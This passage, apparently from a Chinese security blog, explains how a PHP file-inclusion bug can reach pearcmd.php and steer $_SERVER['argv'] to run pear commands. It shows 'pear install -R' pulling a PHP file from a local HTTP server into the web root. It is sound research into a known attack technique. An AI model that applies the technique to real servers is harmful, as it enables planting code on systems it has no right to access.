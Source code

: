 
再次跟进Console/Getopt.php,找到该方法的实现:

 ```php
 public static function readPHPArgv()
     {
         global $argv;
         if (!is_array($argv)) {
             if (!@is_array($_SERVER['argv'])) {
                 if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                     $msg = "Could not read cmd args (register_argc_argv=Off?)";
                     return PEAR::raiseError("Console_Getopt: " . $msg);
                 }
                 return $GLOBALS['HTTP_SERVER_VARS']['argv'];
             }
             return $_SERVER['argv'];
         }
         return $argv;
     }
 ```


可以看到获取$argv的方式是`global $argv --> $_SERVER['argv'] --> $GLOBALS['HTTP_SERVER_VARS']['argv']`

同时我们知道当我们include一个可以被php解析的文件的时候,php代码会被自动执行,这样在register_argc_argv开启的情况下我们就有可能通过包含pearcmd.php与操控$_SERVER['argv']来执行pear命令

### pear命令任意文件下载

我们先来看看如何通过pear命令来实现任意文件下载:

1. 在目录下创建一个tmp.php
    ![](https://gitee.com/guuest/images/raw/master/img/20210605082631.png)
2. 使用python一句话开启http服务器:` python -m SimpleHTTPServer 8080`

3. 通过执行`pear`命令获取帮助,发现存在download选项,尝试执行`pear download http://127.0.0.1:8080/tmp.php`,可以看到已经成功在当前目录下载了tmp.php:
    ![](https://gitee.com/guuest/images/raw/master/img/20210605082702.png)
4. 有没有办法控制下载目录?答案是使用install -R而非download,尝试执行`pear install -R /var/www/html http://127.0.0.1:8080/tmp.php `

    ![](https://gitee.com/guuest/images/raw/master/img/20210605082751.png)


5. 成功下载到web目录下并能够访问
    ![](https://gitee.com/guuest/images/raw/master/img/20210605082843.png)


### 如何控制$_SERVER['argv']

如何往$_SERVER['argv']传入2个或以上的参数?测试一下:

![](https://gitee.com/guuest/images/raw/master/img/20210605082904.png)

